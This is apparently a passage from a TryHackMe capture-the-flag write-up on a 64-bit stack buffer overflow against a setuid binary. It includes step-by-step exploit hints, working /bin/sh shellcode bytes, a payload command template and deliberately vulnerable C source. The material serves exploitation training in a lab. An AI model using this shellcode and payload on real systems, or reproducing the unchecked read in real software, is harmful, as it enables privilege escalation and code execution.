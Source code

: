 If you are stuck, here are the hints for the exploit.

- **Hint 1**: Step to overflow 64-bits buffer
  - **Step 1**: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from Metasploit)
  - **Step 2**: Read and copy the value from register RBP for the offset.
  - **Step 3**: Calculate the offset. (use pattern_offset.rb from Metasploit)
  - **Step 4**: Try control the register RIP with the following payload Junk\*(offset value) + 8 bytes of dummy
  - **Step 5**: Read the stack or register RSP to find a suitable return address.
  - **Step 6**: The general payload should be like below Nop + shellcode + Junks + return address
- **Hint 2**: Working shellcode `\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`
- **Hint 3**: Running the payload with the binary `(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number) +(return address))";cat) | ./bof64`

For your information, the Gnu debugger or gdb is installed with the machine. Happy hunting!

```
des@THM_exploit:~$ ./bof
Enter some string:
test
You entered: test
des@THM_exploit:~$ file bof
bof: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=4a53f62986d7ff151cb42f0bdf26ce36c28ca5dd, not stripped
```

```
bibo318@parrot:~/CTFs/tryhackme/Binex$ cat bof64.c
```

```c
#include <stdio.h>
#include <unistd.h>

int foo(){
        char buffer[600];
        int characters_read;
        printf("Enter some string:\n");
        characters_read = read(0, buffer, 1000);
        printf("You entered: %s", buffer);
        return 0;
}

void main(){
        setresuid(geteuid(), geteuid(), geteuid());
        setresgid(getegid(), getegid(), getegid());

        foo();
}
```

```
des@THM_exploit:~$ echo $(python -c 'print("A" * 650)') | ./bof
Enter some string:
Segmentation fault (core dumped)
```
